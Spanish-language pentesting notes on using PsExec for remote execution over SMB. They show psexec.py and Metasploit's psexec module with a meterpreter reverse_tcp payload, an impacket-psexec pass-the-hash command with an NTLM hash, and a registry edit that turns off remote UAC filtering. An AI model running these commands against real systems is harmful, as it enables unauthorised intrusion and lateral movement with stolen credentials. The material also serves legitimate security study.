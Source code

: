 Herramienta creada por microsoft en alternativa a telnet para administrar remotamente redes. Utiliza el protocolo SMB para la autenticación y son necesarias credenciales válidas.
`psexec.py <username>@<ip>`

Ejemplo: psexec.py Administrator@10.10.10.11

## Con metasploit
Usando el módulo: `exploit/smb/psexec`
Set RHOSTS, SMBPASS, SMBUser y para dentro
Si como **payload** quieres consola **meterpreter** cambiar el payload:
**set payload windows/x64/meterpreter/reverse_tcp** y configurar al opciones del payload.

## SIN MESTASPLOIT

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:bac9dc5b7b4bec1d83e0e9c04b477f26 Administrator@10.129.203.122

```
# 🖥️ PsExec - Requisitos de Acceso

## 📌 ¿Se necesita ser administrador?
✅ **Sí, PsExec requiere un usuario con privilegios de administrador** en la máquina remota para ejecutarse correctamente.

## ⚙️ Requisitos para ejecutar PsExec
1. **El usuario debe ser administrador en la máquina remota**  
   - Puede ser un usuario local del grupo **Administrators** o un usuario de **Active Directory** con permisos de administrador.  
   - Si se usa un usuario sin privilegios, PsExec devolverá "Access Denied".

2. **SMB debe estar habilitado en la máquina remota**  
   - PsExec usa **SMB (puerto 445)** para copiar `psexesvc.exe` en `C:\Windows\` del sistema remoto.

3. **El Firewall no debe bloquear SMB**  
   - Si el puerto 445 está bloqueado, PsExec no funcionará.

4. **UAC Remoto puede bloquear cuentas locales**  
   - En Windows Vista/7/10+, si el UAC está activado, es posible recibir "Access Denied".  
   - Para solucionarlo, en la máquina remota:
   ```powershell
   reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
